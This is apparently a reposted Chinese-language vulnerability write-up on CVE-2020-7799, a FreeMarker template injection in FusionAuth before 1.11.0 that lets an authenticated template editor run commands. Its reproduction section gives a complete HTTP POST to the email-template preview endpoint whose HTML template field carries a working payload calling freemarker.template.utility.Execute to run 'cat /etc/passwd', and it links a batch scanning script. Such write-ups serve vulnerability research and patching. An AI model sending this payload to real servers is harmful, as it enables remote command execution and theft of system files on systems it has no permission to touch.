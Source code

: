 # （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2814](https://www.zhihuifly.com/t/topic/2814)

# （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞

## 一、漏洞简介

在FusionAuth 1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页->设置->电子邮件模板）或主题（主页->设置->主题），可利用`freemarker.template.utility.Execute`执行任意命令

## 二、漏洞影响

## 三、复现过程

post提交

```
POST /ajax/email/template/preview HTTP/1.1
Host: www.0-sec.org:9011
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 796
DNT: 1
Connection: close
Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%[40fusionauth.io](http://40fusionauth.io)&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%[2Fexample.com](http://2Fexample.com)%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${“freemarker.template.utility.Execute”?new()(“cat /etc/passwd”)}} 
```

![image](img/fd796394c31241ff20aa4ff376929820.png)

### 批量检测脚本

https://github.com/ianxtianxt/CVE-2020-7799/

## 参考链接

> https://www.anquanke.com/vul/id/1910928

> https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69